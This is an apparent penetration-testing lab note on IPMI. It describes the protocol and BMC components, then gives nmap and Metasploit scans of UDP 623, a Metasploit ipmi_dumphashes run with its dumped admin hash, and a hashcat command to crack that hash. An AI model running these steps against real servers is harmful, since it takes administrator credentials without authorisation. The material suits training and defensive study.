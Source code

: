 # IPMI

### &#x20;IPMI is typically used in three ways:

* Before the OS has booted to modify BIOS settings
* When the host is fully powered down
* Access to a host after a system failure

The IPMI protocol was first published by Intel in 1998 and is now supported by over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and more. Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band.

### To function, IPMI requires the following components:

* Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
* Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
* Intelligent Platform Management Bus (IPMB) - extends the BMC
* IPMI Memory - stores things such as the system event log, repository store data, and more
* Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

&#x20;Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol.&#x20;

Below is a sample Nmap scan using the Nmap [ipmi-version](https://nmap.org/nsedoc/scripts/ipmi-version.html) NSE script to footprint the service.

```
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

**Metasploit Version Scan**

```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```

```
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.202.5
run
```

```
[+] 10.129.202.5:623 - IPMI - Hash found: admin:7695808482000000bff21a6dc73c0720231565b2d2f1f7cd44912deef8eec08457c691efcde9f73ea123456789abcdefa123456789abcdef140561646d696e:235d2268c59c623daf0482a681afc35b3e821d0e
put the hash inside a file
```

```
hashcat -m 7300 HASH_admin.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```
